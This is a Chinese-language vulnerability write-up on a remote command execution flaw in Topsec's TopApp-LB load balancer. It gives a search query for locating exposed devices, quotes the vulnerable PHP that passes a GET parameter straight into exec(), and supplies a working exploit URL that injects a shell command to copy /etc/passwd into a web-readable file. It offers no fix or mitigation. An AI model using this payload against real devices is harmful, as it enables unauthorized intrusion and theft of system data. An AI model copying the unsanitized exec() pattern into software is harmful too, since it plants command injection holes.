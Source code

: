 # 天融信 TopApp-LB enable_tool_debug.php 远程命令执行漏洞

## 漏洞描述

天融信 TopSec-LB enable_tool_debug.php文件存在 远程命令执行漏洞，通过命令拼接攻击者可以执行任意命令

## 漏洞影响

```
天融信 TopSec-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录页面如下



![](images/202202091923792.png)



漏洞文件为 **enable_tool_debug.php**



```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```



**commandWrapper.inc** 文件中的 **runTool**



```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}
```



这里设置 var=0，tool=1，再进行命令拼接造成远程命令执行



```plain
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```



![](images/202202091941884.png)